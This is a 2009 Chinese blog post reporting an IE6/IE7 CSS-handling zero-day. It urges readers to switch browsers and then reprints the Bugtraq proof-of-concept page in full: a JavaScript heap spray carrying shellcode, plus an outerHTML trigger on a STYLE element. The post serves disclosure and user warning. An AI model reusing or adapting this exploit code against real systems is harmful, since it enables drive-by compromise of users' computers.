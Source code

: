 # IE6-IE7 0day 漏洞
>date: 2009-11-23T00:52:14+08:00




昨天（2009年11月21日），Symantec发布了[IE的一个0day安全漏洞的消息](http://www.symantec.com/connect/blogs/zero-day-internet-explorer-exploit-published)。关于这个消息，截止本文发布时，在中文社区里还没有报导。这是一个关于IE6/IE7处理CSS时的一个漏洞（[关于IE和CSS的BUG](/2009/IE%E7%9A%84CSS%E7%9B%B8%E5%85%B3%E7%9A%84BUG.md)）。如果你目前还在使用IE6/IE7，那你现在可能是你升级的时候了，当然，有很多人说IE8是没有问题的，但我个人还是建议在补丁出来之前先使用Firefox或Chrome。


根据Symantec的的报告，他们在第一时间内测试了那个“Exploit Code”（攻击代码），根据测试结果表时，那个JavaScript的攻击代码并不是100%的可靠，而且很不可靠，但安全专家相信，100%完全可靠的“攻击代码”将会马上出现。这意味着，这段攻击代码会马上如潮水一样地放在各个有恶意的网站上，然后，所有的IE6/IE7的，打开JavaScript的用户都会被危及。


目前，这段攻击代码，虽然很不可靠，但已经被证明在IE6/IE7的 Windows XP SP3上是可靠的，目前还没有相关报告说明有多少台电脑中招了，但我相信，在过去的这个周末，一定有一些人在拼命地在改善这段攻击代码，他们要赶在相关的补丁出来之前。而Microsoft，相信他还是和以前一样，一定要等到攻击很广泛的时候才会开始真正把补丁提上日程。


最后，说一下攻击代码，这个代码是在[Bugtraq邮件组](http://seclists.org/bugtraq/2009/Nov/148)中，这段攻击代码如下所示，这段代码攻击性并不可靠。




```
<!--
securitylab.ir
K4mr4n_st () yahoo com
-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"<a href="http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd</a>";>
<HTML xmlns=<a href="http://www.w3.org/1999/xhtml">http://www.w3.org/1999/xhtml</a>;>
    <HEAD>
<script>  
            function load(){
                var e;
                e=document.getElementsByTagName("STYLE")[0];
                e.outerHTML="1";
            }
        </script>    
        <STYLE type="text/css">
            body{ overflow: scroll; margin: 0; }
        </style>
       
        <SCRIPT language="javascript">
var shellcode =
unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");
var bigblock = unescape("%u9090%u9090");
var headersize = 20;
var slackspace = headersize+shellcode.length;
while (bigblock.length<slackspace) bigblock+=bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length-slackspace);
while(block.length+slackspace<0x40000) block = block+block+fillblock;
memory = new Array();
for (x=0; x<4000; x++) memory[x] = block + shellcode;
</script>
 
    </HEAD>   
    <BODY onload="load()">
    </BODY>
</HTML>
```

 




